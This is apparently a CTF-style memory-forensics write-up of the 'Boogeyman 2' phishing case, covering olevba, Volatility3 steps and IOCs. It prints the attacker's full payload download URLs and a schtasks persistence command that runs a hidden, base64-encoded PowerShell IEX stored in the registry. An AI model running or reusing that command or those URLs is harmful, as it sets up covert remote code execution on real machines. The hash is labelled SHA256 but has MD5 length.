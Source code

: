 Boogeyman 2
--------------

## TL;DR Summary

- **Initial Vector**: Phishing email with .doc macro payload
- **Stage 1**: Malicious macro calls Stage 2 from external URL
- **Stage 2**: JS script (`update.js`) executed via `wscript.exe`
- **Stage 3**: Downloader `Updater.exe` communicates with C2 (port 8080)
- **Persistence**: Established using `schtasks` + encoded PowerShell
- **Tools Used**: olevba, Volatility3 (pstree, netscan, dumpfiles), strings
- **Key Skills Demonstrated**: Memory forensics, malware staging, live artifact triage, persistence detection


---

# **Full Investigation**


## Analysis 1

- **Phishing Email Sender**: `[REDACTED]@outlook.com`
- **Victim Email**: `[REDACTED]@onmicrosoft.com`
- **Malicious Attachment**: `Resume_WesleyTaylor.doc`
- **Renamed Locally**: `Malware.doc`
- **Malicious File Hash**: `52c4384a0b9e248b95804352ebec6c5b`

Seems the malware is in separate stages, there is at least a stage 2

used the olevba tool to find more info: ```olevba Malware.doc```

found a URL for the stage 2 payload download:
```https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.png``` 

The windows process that executed the stage2 payload was 'wscript.exe'

full path of the stage 2 payload: ```C:\ProgramData\update.js```

Have to dive into forensics now to pull out more information, Volatility3 style

Vol3 Commands:

**Volatility3 usage:**
```vol -f WKSTN-2961.raw <plugin>```

**for plugins**
```
vol -f WKSTN-2961.raw -h

plugins of choice:

windows.pstree.PsTree
windows.psscan.PsScan
windows.pslist.PsList
windows.strings.Strings
```

**Trying first:**

```vol -f WKSTN-2961.raw windows.pstree.PsTree```
```vol -f WKSTN-2961.raw windows.netscan.NetScan```

found the pid of stage 2 being 4260

using pstree i can see the hierarchy of the processes.

the parent process of wscripts.exe is WINWORD.EXE with a PID of 1124

```windows.strings.Strings``` doesn't seem to work here

**Quick Note: I originally answered question 10 by pasting the answer from question 5 and accidentally "autocorrected" .png to .exe. It turned out correct, but I wanted to know how to actually find the answer instead. So I paused and researched, That process is documented below.**



## Research 1

using ```vol -f WKSTN-2961.raw windows.filescan | grep -i update``` to find more information

found update[1].exe

using ```vol -f WKSTN-2961.raw windows.dumpfiles --virtaddr 0xe58f8928f8b0``` to dump the file we need for forensics

checking it's filetype and contents:
```file 'file.0xe58f8928f8b0.0xe58f838dd360.DataSectionObject.update[1].exe.dat'```

```cat 'file.0xe58f8928f8b0.0xe58f838dd360.DataSectionObject.update[1].exe.dat'```

nothing useful so far.

more research results more methods

```strings WKSTN-2961.raw | grep boogeymanisback.lol```

found the update.exe's webserver URL: 
```https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.exe```

using the netscan plugin to find any clues about what process was used to establish C2 connection:

once again, like in Boogeyman 1, the boogeyman really likes port 8080, checking the answer of the PID of the suspected process updater.exe


## Analysis 2

PID: 6216

turns out correct, and updater.exe is the malicious process used

full file path: ```C:\Windows\Tasks\Updater.exe```

C2 IP Address and port: ```[REDACTED]```

full filepath of the malicious .doc file email attachment:

```\Users\[REDACTED]\AppData\Local\Microsoft\Windows\INetCache\Content.Outlook\WQHGZCFI\Resume_WesleyTaylor (002).doc```

last question might need a bit of research again.. i forget the keywords for finding scheduled processes..


## **Research 2**

okay, after some googling, tried the keyword "schedule" with grep: ``vol -f WKSTN-2961.raw windows.filescan | grep -i "schedule"``

windows uses something called Microsoft Windows Task Scheduler, thats in the path: ``\Windows\System32\winevt\Logs\Microsoft-Windows-TaskScheduler``

maybe this is useful information

after some more research, event log IDs might hold the key, with 106 for task creation and 140 for updates being important perhaps

...maybe not? can't seem to find a plugin for event IDs

with some more research i found from a walkthrough, using ``strings WKSTN-2961.raw | grep schtasks``

found the answer

Full Command:

```schtasks /Create /F /SC DAILY /ST 09:00 /TN Updater /TR 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NonI -W hidden -c \"IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp HKCU:\Software\Microsoft\Windows\CurrentVersion debug).debug)))\"';'Schtasks persistence established using listener http stored in HKCU:\Software\Microsoft\Windows\CurrentVersion\debug with Updater daily trigger at 09:00.```

```"schtasks /Create /F /SC DAILY /ST 09:00 /TN Updater /TR 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NonI -W hidden -c \"IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp HKCU:\Software\Microsoft\Windows\CurrentVersion debug).debug)))"``` was the answer.




**Finished CTF**⠀⠀⠀⠀⠀⠀⠀⠀


## Lessons Learned

- Validated the importance of PID tracking across processes during staged malware execution.
- Learned that doing my own investigation rather than guessing the answer is more important, and learning the process to finding that answer.
- Reaffirmed that persistence often lives in plain sight (`schtasks`, registry) but requires familiarity with Windows internals.


## IOCs

| Type         | Value                                                                 |
|--------------|-----------------------------------------------------------------------|
| SHA256 Hash  | 52c4384a0b9e248b95804352ebec6c5b                                      |
| C2 IP        | [REDACTED]                                                            |
| URL (Stage 2) Defanged| hxxps[://]files[.]boogeymanisback[.]lol/[.][.][.]/update[.]png                     |
| URL (Stage 3) Defanged| hxxps[://]files[.]boogeymanisback[.]lol/[.][.][.]/update[.]exe                       |
| File Path    | C:\ProgramData\update.js                                              |
| Scheduled Task | `Updater` - daily at 09:00                                          |

